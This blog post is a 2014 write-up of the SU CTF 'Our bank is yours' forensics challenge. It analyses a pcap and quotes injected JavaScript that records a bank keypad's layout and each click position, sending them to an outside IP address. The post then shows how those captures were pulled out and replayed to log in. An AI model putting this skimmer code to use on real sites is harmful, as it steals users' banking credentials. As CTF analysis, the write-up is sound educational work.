 ```yaml
---
id: 19
title: 'SU CTF 2014 &#8211; Our bank is yours write up'
date: 2014-09-28T20:54:36+00:00
author: mashhadimj
layout: post
guid: http://mjafar.me/blog/?p=19
permalink: /blog/:year/:month/our-bank-is-yours-write-up/
categories:
  - CTF Writeup
---
```

The police have arrested a cyber criminal but they don't have a good witness. Just a short capture of his network traffic is available. Is it helpful?

-------

A pcap network traffic log is attached. By opening it in wireshark you could see that an email is sent with a link to <a href="http://ctf.sharif.edu:45656/" target="_blank"> this page</a> that injects the following javascript code into the page.


```javascript
setTimeout("sendmap();",1000);
document.body.addEventListener("click",clickdone,false);
function sendmap(){
  var buttons=document.getElementsByClassName("keypadButtonStyle");
  var keymap="";
  for(var i=0;i<buttons.length;i++)
    keymap+=buttons[i].value;
  var xmlhttp=new XMLHttpRequest();
  xmlhttp.open("GET","http://95.211.102.232:8080/c.php?t=m&v="+keymap,false);
  xmlhttp.send();
}
function clickdone(e){
  var xPosition=e.clientX;
  var yPosition=e.clientY;
  var xmlhttp=new XMLHttpRequest();
  xmlhttp.open("GET","http://95.211.102.232:8080/c.php?t=c&v="+xPosition+","+yPosition,false);
  xmlhttp.send();
}
```

It first sends the mapping of keys to `http://95.211.102.232:8080/c.php` then on each click sends the x and y position of click to that page.

We used the following shell script to find all GET requests to the given address.
```bash
#!/bin/sh

touch bank-followstream.txt
END=$(tshark -r $1 -T fields -e tcp.stream | sort -n | tail -1)
for ((i=0;i<=END;i++)) do
     echo $i
     tshark -r $1 -qz follow,tcp,ascii,$i >> bank-followstream.txt
done

grep "GET /c.php" < bank-followstream.txt
```
Key mapping is `4    1    6    3    7    0    8    9    5    2   Backspace`. With a simple javascript code you can simulate clicks on the original page. After logging in the flag will appear.
This line of javascript (using jQuery) code may be helpful:
```javascript
$(document.elementFromPoint(x, y)).click();
```
